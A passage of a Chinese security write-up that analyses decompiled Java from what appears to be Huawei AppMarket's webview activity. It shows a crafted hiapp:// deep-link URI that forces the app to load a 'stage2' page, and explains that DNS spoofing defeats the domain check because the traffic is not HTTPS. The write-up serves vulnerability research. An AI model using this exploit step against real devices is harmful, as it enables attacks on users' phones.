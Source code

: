 ``` java
protected void onCreate(Bundle arg4) {  
        super.onCreate(arg4);
        Request request = this.getProtocol().getRequest();  // this.delegate.a();
        this.mWebvewDelegate = this.createDelegate(request);  // webViewDelegate 初始化为具体的类
        if(this.mWebvewDelegate == null) {
            a.e(WebViewActivity.TAG, "mWebvewDelegate is null,uri=" + this.mDelegateUri);
        }
        else {
            String url = request.getUrl();  // 获取到第二个参数url
            if(!g.isEmpty(url)) {
                if(!this.mWebvewDelegate.check(((Context)this), request)) {  
                    this.finish();
                }
                else {
                    this.mWebvewDelegate.onCreate(((Context)this), request);
                    this.setContentView();
                    this.mWebvewDelegate.initView(((Context)this), request);//我是彩蛋
                    this.mWebvewDelegate.loadPage(url);  // 加载url
                }
            }
        }
    }
```

这里有个步骤是怎么把传过来的bundle转换成request并作处理，这一部分不做分析，读者可自行尝试。
实际上这里仅需要构造两个参数uri和url,uri控制着启动Activity,url控制着需要load的页面。

``` java
public class WebviewConfig {
    public WebviewConfig() {
        super();
    }
//第一个参数即为uri
    public static void init() {
        WebviewFactory.INSTANCE.registerDelegate("internal_webview", InternalWebviewDelegate.class);  // internal_webview
        WebviewFactory.INSTANCE.registerDelegate("external_webview", InternalWebviewDelegate.class);
        WebviewFactory.INSTANCE.registerDelegate("user_privacy_webview", UserPrivacyWebviewDelegate.class);
    }
}
```
至此，我们最终可以构造的URI为:

``` java
document.location = "hiapp://com.huawei.appmarket?activityName=activityUri|webview.activity&params={'params' : [ { 'name' : 'uri', 'type' : 'String', 'value' : 'internal_webview' }, { 'name' : 'url', 'type' : 'String', 'value' : 'http://www.vmall.com:8000/stage2.html' } ] }&channelId=1";
```

可以看到，在loadPage之前是有安全性检验的，必须是指定的域名匹配后才能够通过，因此这里是没办法load自定义的url的。

但是,第一部分漏洞的关键点就是: 没有进行https通信,因此通过DNS欺骗劫持域名即可使该域名加载自己网页内容。(你没看错 这就没了 = =)
